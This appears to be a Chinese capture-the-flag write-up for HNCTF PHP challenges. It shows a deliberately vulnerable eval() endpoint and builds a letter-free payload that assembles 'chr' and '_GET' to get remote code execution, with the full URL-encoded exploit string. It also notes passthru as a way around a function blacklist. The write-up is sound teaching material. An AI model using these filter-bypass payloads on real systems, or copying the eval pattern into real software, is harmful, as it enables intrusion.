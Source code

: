 过滤了`system exec shell_exec`，看别人的wp发现还有`passthru`

用这个函数**rce**就好了

这题没有过滤斜杠，还可以用`0/0`得到`NAN`方便构造

##### Challenge__rce[HNCTF]

传?hint看到源码

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
```

与上题相比没过滤数字，但是符号更多了，而且长度有限制，`/`也被过滤了
构造出`_get`是可以的，但是php对这个的大小写是敏感的(一般函数是不敏感的)，所以不行
构造`_GET`，只有一个大小A，想了很多办法减少字符串的数量都是超过

后来还是比照两题的区别

**这题给出所有数字的原因是什么呢？**

**给出来了一定有用~**

于是想到了一个函数  **chr**

chr加上数字就可以构造出所有的字母，而`Array`里面`r`有了，只需要构造`ch`就好了

```php
<?php
$_0.=[];
$_=$_0[3];
$_++;
$__.=++$_;
$_++;$_++;$_++;$_++;
$__.=++$_.$_0[1];//chr
$_=_.$__(71).$__(69).$__(84);//_GET


#rce=%24_0.%3D%5B%5D%3B%24_%3D%24_0%5B3%5D%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_.%24_0%5B1%5D%3B%24_%3D_.%24__(71).%24__(69).%24__(84)%3B%24%24_%5B1%5D($$_[0])%3B
```
